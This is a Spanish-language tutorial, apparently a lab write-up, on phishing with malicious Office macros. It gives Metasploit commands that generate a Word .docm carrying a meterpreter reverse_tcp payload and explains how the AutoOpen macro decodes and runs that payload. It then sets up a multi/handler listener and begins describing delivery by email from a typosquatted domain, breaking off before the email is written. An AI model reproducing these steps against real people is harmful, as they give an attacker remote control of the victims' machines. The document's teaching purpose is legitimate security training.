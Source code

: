 # Objetivos de aprendizaje

- Entender como funciona un ataque de phising
- Descubrir como los macros del documentos puedes usarse y abusar
- Aprender como realizar un ataque de phishing con una macro

# Phishing

Como todos sabemos en el término de seguridad los humanos somos el eslabón más débil, ¿Qué es más fácil buscar una vulnerabilidad en un sistema detras de un firewall o convender a alguien de abrir un documento "importante"?

Phishing es como la palabra pescar, sin embargo, el atacante no se come luego el pesado jiji, bueno, Phishing funciona mandando un "bait" normalmente a un grupo de usuarios. El atacante crea mensajes dependiendo de la urgencia, del target para que tomen medidas inmediatas, incrementando los chances. El proposito realmente es robar información personal o instalar un malware, normalmente se convence a la víctima a utilizar un formulario, abrir un archivo  o clickar en un link

# Macros

Una macro se refiere una instrucción programada diseñada para automatizar tareas repetitivas. Office, te ayudan a crear macros en el documento. En muchos casos, estos macros son características que pueden quitar mucho tiempo. Sin embargo en ciber seguridad estos programas pueden llevar dentro propositos maliciosos.

Para añadir una macro dentro de un documento de Word, nos iremos a menu de ver seleccionaremos Macros y se nos abrira, especificaremos el archivo en cuestión y crearemos

![image](https://github.com/user-attachments/assets/427c5c19-bef5-4730-a38c-fecb78620d05)

Vamos a explorar como un atacante crea un documento y lo utiliza para ganar acecso a un sistema

# Plan de ataque

En este plan necesitamos crear un documento malicioso. Al abrir el documento, la macro se ejecute el payload conectado en la máquina y no se un control remoto. Posteirormente, necesitaremos estar escuchando las conexiones de dicha maquina antes de mandar dicho documento. Para ejecutar el macro utilizaremos una rev shell, utilizada para ejecutar comandos remotamente.

- Crear un documento con la redirección maliciosa
- Estar a la escucha de conexiónes

# Crear un documento malicioso

El primer paso es crear dicho documento en m icaso utilizare metasploit

```
msfconsole

set payload windows/meterpreter/reverse_tcp

use exploit/multi/fileformat/office_word_macro

set LHOST (nuestra ip)

set LPORT (puero en cuestión)

exploit

exit
```

![image](https://github.com/user-attachments/assets/5b71c7e4-9e7b-4ca2-b26e-3888a882c7e2)

![image](https://github.com/user-attachments/assets/f6898de8-42bd-4882-ae4c-019a5828a97a)

![image](https://github.com/user-attachments/assets/ebfdef6d-9d02-45a1-a9bc-841dfe1537c8)

Como podemos ver se nos ha guardado en /root/.msf4/local/msf.docm

# Como se ve el dcumento

1. AutoOpen() desencadena la macro automaticamente cuando el word se abre. Busca alrededor del documento y sus propiedaes, ve el contenido de "comentario" y los datos son codificados en base64 y automaticamente se genera el payload
2. Base64Decode() convierte el payload en su forma originar y en este caso es un ejecutable MS WIndows
3. ExecuteforWindows() Ejecuta el payload temporalmente. Se conecta a la IP anteriormente utilizada

![image](https://github.com/user-attachments/assets/0a68d568-f04b-4039-9599-773d1474db6a)

Los comentarios:

![image](https://github.com/user-attachments/assets/5fd990d7-93b6-4bfe-a2b8-eca9f604c112)

Si copias el comentario de base 64 puedes convertirlo en su archivo original usando base64

```
base64 -d payload.txt > payload_decodificado.txt
```

Si deseas comprobar exactmaente lo que hace el archivo puedes meterlo a VirusTotal

![image](https://github.com/user-attachments/assets/fc2577c6-871f-47a2-bcdc-08cd9bfa7b79)

# Escuchar las conexiones

- Abriremos la consola y ejecutaremos msfconsole:

```
use multi/handler

set payload windows/meterpreter/reverse_tcp

set LHOST 10.10.204.2

set LPORT 8888

show options

exploit
```

![image](https://github.com/user-attachments/assets/5e923153-3dfd-442c-8468-200cf3b00dfb)

![image](https://github.com/user-attachments/assets/f106cfd6-48d6-4a38-8703-aed128335206)

![image](https://github.com/user-attachments/assets/6357d38d-a6ed-4f37-9344-1510f60c826c)

# Email con el contenido malicioso

Ahora que dicho documento esta creado. Todo lo que necesitamos es mandar el target del usuario. Es tiempo para mandar un email

Esta tecnica es conocida como "typosquatticg" donde los atacantes se crean un dominio identico al legitimo para jugar con las victimas

por ejemplo

marta@nodo313.net

info@nodo313.net

Una vez estes dentro del email, primero cogeremos y cambiaremos el nombre de dicho documento

![image](https://github.com/user-attachments/assets/76a7071f-96dc-43fe-a059-d78c11ce1475)

Una vez hecho esto prepararemos un correo 







